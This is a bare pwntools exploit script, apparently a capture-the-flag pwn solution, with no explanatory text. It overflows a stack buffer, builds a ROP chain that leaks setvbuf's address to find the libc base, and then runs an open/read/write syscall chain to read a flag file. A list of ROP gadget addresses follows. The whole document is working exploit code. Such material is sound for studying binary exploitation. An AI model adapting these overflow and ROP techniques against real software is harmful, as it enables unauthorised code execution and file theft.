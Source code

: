 ```
func_addr=elf.got['setvbuf']
syscall_ret=0x4012ec
pop_rdi=0x401363
pop_rsi2=0x401361
 
p.sendline("000")
payload=b'a'*0x78+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(0x401291)
pause()
p.sendline(payload)
p.recvuntil(b'./f1ag')
p.recv(2)
# p.recvuntil(b'./f1ag\x00\x00\x00')
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['setvbuf']
print(hex(func_addr))
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
 
flag_name=0x4040e0
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pop_rax=0x36174+base
 
payload=b'flag\x00\x00\x00\x00'
pause()
p.send(payload)
 
payload=b'a'*0x78+p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(pop_rsi)+p64(0)+p64(syscall_ret)+p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(0x401270)
pause()
p.send(payload)
 
p.interactive(0)
 
# 0x000000000040135c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401360 : pop r14 ; pop r15 ; ret
# 0x0000000000401362 : pop r15 ; ret
# 0x000000000040135b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040119d : pop rbp ; ret
# 0x0000000000401363 : pop rdi ; ret
# 0x0000000000401361 : pop rsi ; pop r15 ; ret
# 0x000000000040135d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040127e : ret 0x14
# 0x00000000004012e7 : ret 0x200
 
# 0x00000000004012ba : ret 0x4c
# 0x000000000040129c : ret 0x50
# offset in libc
# 0x0000000000036174 : pop rax ; ret
```
